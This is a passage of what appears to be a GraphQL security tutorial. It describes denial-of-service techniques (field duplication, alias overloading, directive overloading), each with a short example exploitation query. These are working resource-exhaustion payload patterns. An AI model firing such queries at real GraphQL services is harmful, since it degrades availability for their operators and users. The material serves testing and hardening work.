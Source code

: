 ```
            }
          }
        }
      }
    }
  }
}
```
A study of 160 public GraphQL services from 2024 found that 69% had issues related to unrestricted resource consumption, highlighting the risks of unbounded field selection:
https://escape.tech/blog/the-state-of-graphql-security-2024/

## Field Duplication
As the name suggests, all you need to do to exploit it is duplicate fields. An important thing to note is that the server might respond as if it only processed one field, but we can observe that the response time is much longer when many fields are passed—so they are being resolved, it’s just not shown in the response.
### Exploitation
```
query {
  articles {
    headline
    body
    body
    body
    body
    body
    # add as many as possible
  }
}
```
## Alias Overloading
By using this technique, we can send multiple queries in a single HTTP request.
### Exploitation:
```
query {
one:resources
two:resources
three:resources
four:resources
five:resources
}
```
Instead of targeting resources directly, you would use a query that consumes the most resources on the server. You can also chain aliases with other vulnerabilities, such as a circular query.
## Directive Overloading
A directive is a way to give extra instructions in a GraphQL query or schema. It tells the server to modify how a field or operation should be executed—like including or skipping certain fields based on conditions.
It is similar to field duplication, but on most servers, it will consume fewer resources.
### Exploitation:
```
query {
  pastes {
    title @whatever@whatever@whatever@whatever# add as many as possible
    content @whatever@whatever@whatever@whatever
  }
}
```